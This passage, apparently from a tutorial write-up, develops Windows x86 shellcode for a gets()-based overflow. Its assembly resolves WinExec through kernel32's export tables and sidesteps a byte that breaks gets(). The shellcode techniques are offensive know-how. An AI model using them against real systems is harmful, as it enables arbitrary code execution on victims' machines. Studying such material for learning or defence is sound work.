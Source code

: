 This is where we run into our first problem...

That `0x1C` byte from `mov edx, [eax + 0x1C]`, for whatever reason, causes `gets()` to not work, and our shellcode doesn't get read. I cannot explain to you the sheer amount of confusion that I had when building this. One moment it was reading the code, the next not. I know that line feeds and whatnot are off the table cause it's `gets()`, but this random *file separator* byte decides to break everything.

So I fiddle with it to avoid using that byte:

```asm
mov esi, eax
add esi, 0x20
dec esi
dec esi
dec esi
dec esi
mov edx, [esi] ; RVA of Address Table
xor esi, esi
```

We then loop through the address table until we find `WinExec`:

```asm
loop: 
    mov edi, [ebp-0x10] ; addr. of Name Ptr Table
    mov esi, [ebp-4] ; WinExec
    xor ecx, ecx

    cld  ; set DF=0 => process strings from left to right
    mov edi, [edi + eax*4]
    add edi, ebx
    add cx, 8
    repe cmpsb  ; esi and edi registers. ZF=1 if equal, ZF=0 if not
    jz found
    inc eax
    cmp eax, edx  ;check if last function reached
    jb loop
    add esp, 0x26  ; reclaim stack
```

Once we found WinExec, we do a bit of math to get the exact pointer:


```asm
found:
    mov ecx, [ebp-0x0C]	; ecx = var12 = Address of Ordinal Table
    mov edx, [ebp-0x14]  	; edx = var20 = Address of Address Table

    mov ax, [ecx + eax*2] 	; ax = ordinal number = var12 + (counter * 2)
    mov eax, [edx + eax*4] 	; eax = RVA of function = var20 + (ordinal * 4)
    add eax, ebx 		; eax = address of WinExec = kernel32.dll base address + RVA of WinExec

    xor edx, edx
```
